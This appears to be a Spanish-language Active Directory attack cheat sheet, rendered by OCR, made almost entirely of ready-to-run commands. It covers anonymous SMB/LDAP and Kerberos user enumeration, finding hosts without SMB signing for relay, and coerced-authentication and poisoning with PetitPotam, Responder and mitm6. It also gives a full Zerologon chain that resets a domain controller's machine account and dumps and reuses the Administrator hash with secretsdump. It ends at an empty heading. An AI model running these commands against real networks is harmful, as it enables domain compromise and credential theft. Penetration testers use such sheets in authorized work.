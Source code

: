 ### cme smb <ip> -u 'a' -p '' # Enumerar anonymous access

## Enumerar ldap

### nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>

### ldapsearch -x -h <ip> -s base  

## Find user list

### enum4linux -U <dc-ip> | grep 'user:'

### crackmapexec smb <ip> -u <user> -p '<password>' --users 


- nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 

## relay/poisoning

### Buscar smb sin firmar

- nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK
- use exploit/windows/smb/smb_relay
- cme smb $hosts --gen-relay-list relay.txt

### PetitPotam.py  -d <domain> <listener_ip> <target_ip>

### responder -i eth0

### mitm6 -d <domain>

## zerologon

### python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>
secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 
secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>

- python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>


## Con credenciales

### Get all users
